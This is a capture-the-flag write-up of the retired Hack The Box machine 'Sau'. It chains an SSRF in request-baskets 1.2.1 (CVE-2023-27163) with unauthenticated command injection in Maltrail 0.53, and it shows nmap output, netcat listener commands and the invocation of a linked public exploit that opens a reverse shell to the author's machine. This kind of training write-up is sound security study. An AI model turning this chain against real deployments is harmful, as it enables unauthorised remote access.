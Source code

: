 ```yaml
---
title: Sau
categories: HTB
tags: complete retired easy linux
img_path: /assets/img/HTB/sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box.
{: .prompt-tip }

# Enumeration

Let's start off with a basic nmap scan.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

## Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1]()]

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![[Screenshot 2024-02-14 at 4.22.51 PM.png]]

Next, let's curl the basket using the URL provided

![[Screenshot 2024-02-14 at 4.48.29 PM.png]]

Success! We are able to receive the request we sent on our netcat listener.

![[Screenshot 2024-02-14 at 4.24.15 PM.png]]

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![[Screenshot 2024-02-14 at 10.16.33 PM.png]]

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![[Screenshot 2024-02-14 at 10.21.33 PM.png]]

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. https://github.com/spookier/Maltrail-v0.53-Exploit

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![[Screenshot 2024-02-14 at 10.29.28 PM.png]]
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".


